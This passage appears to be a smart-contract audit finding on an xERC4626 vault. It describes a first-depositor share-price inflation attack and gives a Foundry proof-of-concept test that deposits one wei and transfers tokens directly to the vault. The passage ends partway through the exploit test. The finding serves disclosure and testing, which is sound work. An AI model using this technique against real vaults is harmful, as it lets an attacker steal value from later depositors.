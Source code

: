 The share price always return 1:1 with asset token. If everything work normally, share price will slowly increase with time to 1:2 or 1:10 as more rewards coming in.

But right after xERC4626 contract creation, during first cycle, any user can deposit 1 share set `totalSupply = 1`. And transfer token to vault to inflate `totalAssets()` before rewards kick in. (Basically, pretend rewards themselves before anyone can deposit in to get much better share price.)

This can inflate base share price as high as 1:1e18 early on, which force all subsequence deposit to use this share price as base.

### Impact

New xERC4626 vault share price can be manipulated right after creation.
Which give early depositor greater share portion of the vault during the first cycle.

While deposit token also affected by rounding precision (due to exploit above) that always return lesser amount of share for user.

### Proof of Concept

Add these code to `xERC4626Test.t.sol` file to test.

```js

    function testExploitNormalCase() public {
        token.mint(address(this), 1e24); // funding
        token.approve(address(xToken), type(uint256).max);
        xToken.syncRewards();
        hevm.warp(1); // skip 1 block from sync rewards. to update new TotalAsset() value
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        emit log_named_uint("deposit 1e18  ", xToken.deposit(1e18, address(this)));
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        emit log_named_uint("deposit 500e18", xToken.deposit(500e18, address(this)));
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        emit log_named_uint("deposit 500e18", xToken.deposit(500e18, address(this)));
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        emit log_string("fast forward 1 hour to new rewards cycle");
        hevm.warp(3601); // new cycle
        emit log_named_uint("deposit 2e18  ", xToken.deposit(2e18, address(this)));
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        emit log_named_uint("deposit 500e18", xToken.deposit(500e18, address(this)));
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        // Share price stay the same 1:1. Due to no rewards have been given.
    }

    function testExploitShare() public {
        token.mint(address(this), 1e24); // funding
        token.approve(address(xToken), type(uint256).max);

        // init total supply as 1:1 share with token as one.
        xToken.deposit(1, address(this));

        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        emit log_string("transfer 100e18 fake token rewards to inflate share price");
        // transfer fake rewards token to xToken contract to inflate totalAsset()
        token.transfer(address(xToken), 100e18);
        xToken.syncRewards();
        hevm.warp(1); // skip 1 block from sync rewards. to update new TotalAsset() value

        // totalSupply() still 1. So current share price is ~ 1e18 token instead of 1:1 for token.
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        emit log_named_uint("deposit 1e18  ", xToken.deposit(1e18, address(this)));
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        emit log_named_uint("deposit 500e18", xToken.deposit(500e18, address(this)));
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        emit log_named_uint("deposit 500e18", xToken.deposit(500e18, address(this)));
```